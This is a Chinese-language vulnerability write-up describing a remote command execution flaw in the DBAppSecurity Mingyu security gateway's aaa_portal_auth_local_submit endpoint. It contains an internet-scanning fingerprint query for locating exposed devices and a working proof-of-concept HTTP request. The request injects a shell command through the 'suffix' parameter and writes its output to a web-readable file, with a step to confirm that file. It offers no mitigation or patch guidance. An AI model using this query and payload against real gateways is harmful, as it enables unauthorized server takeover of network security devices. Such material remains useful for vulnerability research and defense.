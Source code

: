 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>安恒 明御安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/webui/images/basic/login/" && title=="明御安全网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1648357678171-6c786cb6-1bdb-43c0-a94b-4c2ed4ff3cd0.png)

验证POC

```plain
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1692062626150-36022103-f317-4818-bac9-f11851fbd281.png)

```plain
/test.txt
```

![img](../../../.vuepress/public/img/1692062651462-caaf6133-21b4-4566-947b-a9fe6e2f2502.png)